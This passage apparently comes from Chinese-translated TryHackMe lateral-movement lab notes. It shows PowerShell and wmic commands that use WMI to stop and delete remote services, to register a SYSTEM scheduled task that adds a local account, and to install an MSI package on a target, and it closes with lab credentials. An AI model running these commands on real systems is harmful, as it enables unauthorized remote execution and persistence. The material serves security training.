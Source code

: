 ```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### 使用 WMI 远程创建计划任务

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

我们可以使用 Windows 默认安装中提供的一些命令来创建和执行计划任务：

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

要在使用后删除计划任务，我们可以使用以下命令：

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

### 使用 WMI 安装 MSI 软件包

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

MSI 是一种用于安装程序的文件格式。如果我们能够将一个 MSI 软件包复制到目标系统中，然后就可以使用 WMI 来尝试为我们安装它。文件可以以攻击者可用的任何方式进行复制。一旦 MSI 文件位于目标系统中，我们可以通过 WMI 调用 Win32_Product 类来尝试安装它：

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

我们也可以在旧系统中使用 wmic 来达到同样的效果：

```powershell
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

### 让我们开始吧

要完成此练习，您需要使用在任务 1 中分配给您的凭据连接到 THMJMP2。如果您还没有这样做，请访问 `http://distributor.za.tryhackme.com/creds` 获取凭据。

```plaintext
Your credentials have been generated: Username: damien.horton Password: pABqHYKsG8L7
```
